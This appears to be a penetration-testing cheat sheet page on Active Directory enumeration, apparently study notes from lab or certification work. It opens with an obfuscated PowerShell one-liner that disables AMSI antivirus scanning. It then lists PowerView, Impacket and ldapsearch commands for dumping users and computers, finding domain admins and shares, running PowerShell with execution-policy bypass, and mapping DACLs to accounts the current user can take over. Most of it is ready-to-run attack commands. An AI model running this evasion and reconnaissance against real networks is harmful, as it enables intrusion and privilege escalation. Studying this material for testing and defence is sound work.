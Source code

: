 ```yaml
---
layout: page
title: "# Enum Users / Computers / Shares / DACL Commands"
permalink: /ad_cheatsheets/enum_users_computers_shares_dacl_commands
---
```


# Enum Users / Computers / Shares / DACL Commands
# Bypass AMSI antivirus

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```markdown
. .\powerview.ps1
```

## Enum Users

```powershell
#PowerView
Get-NetUser | select samaccountname

#Impacket
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 172.16.75.168 complyedge.com/pete

#LDAP Search - Users incl. extended info
ldapsearch -Y GSSAPI -H ldap://dmzdc01.complyedge.com -D "pete@complyedge.com" -W -b "dc=complyedge,dc=com" '(&(objectClass=user))'
```

## Enum Computers

```powershell
#PowerView
Get-NetComputer

#LDAP Search - Computers incl. extended info
ldapsearch -Y GSSAPI -H ldap://dmzdc01.complyedge.com -D "pete@complyedge.com" -W -b "dc=complyedge,dc=com" '(&(objectClass=computer))'
```

## Enum Members of Domain Admin Group

```powershell
Get-NetGroupMember -GroupName "Domain Admins"
```

## Enum Members of Ent. admin

```powershell
Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local
```

## Enum Shares

```powershell
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```

## Enum DACL

```powershell
powershell -ep bypass
. .\powerview.ps1
Get-ObjectAcl -Identity %username%
```

## Convert SID

```powershell
powershell -ep bypass
. .\powerview.ps1
ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
```

## Enum DACL and convert SID

```powershell
Get-ObjectAcl -Identity %USERNAME% -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

### Get all ACE's of all domain users and resolve the SID - Then filter on usernames that match our current user as set in the $env:UserDomain and $env:Username environment variables

This shows us the accounts our current user has elevated privileges over:

```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Do the same with domain groups:

```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Resources:

[PowerView: Active Directory Enumeration](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview)

[PowerView-3.0 tips and tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
